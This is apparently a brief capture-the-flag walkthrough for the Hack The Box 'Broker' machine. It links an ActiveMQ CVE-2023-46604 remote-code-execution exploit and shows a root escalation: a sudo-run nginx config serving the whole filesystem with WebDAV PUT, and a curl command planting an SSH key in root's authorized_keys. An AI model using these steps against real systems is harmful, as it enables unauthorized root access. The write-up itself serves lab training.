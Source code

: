 ## Broker box on htb

### Useful tools:
https://www.revshells.com/

### Obtaining user flag
https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell
https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ

Once exploit delivered, just `cat /home/activemq/user.txt`

### Obtaining root flag
Used nginx which user had access to to start nginx server and allow PUT with WebDav

To open up a stream from local to remote with reverse shell:
```shell
# on remote
nc -l -p 1234 > nginx.conf

# on host
nc -w 3 broker.htb 1234 < nginx.conf
```

Custom config:

```json
# nginx.conf
user root;
events {
    worker_connections 512;
}
http {
  server {
    dav_methods PUT DELETE MKCOL COPY MOVE;
    listen 9005;
    root /;
    autoindex on;
  }
}
```

Start nginx server with custom config:
`sudo nginx -c $(realpath nginx.conf)`


## With nginx webdav method to put files:
`curl -X PUT -d "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIErzi80YYVjGdDF0K4f29cvtK3MTLy87WUNOXr6W5U3Y parallels@kali-gnu-linux-2023.2" http://broker.htb:9000/root/.ssh/authorized_keys`

Used local ssh key to transfer to box with nginx server running int othe root authorized keys.
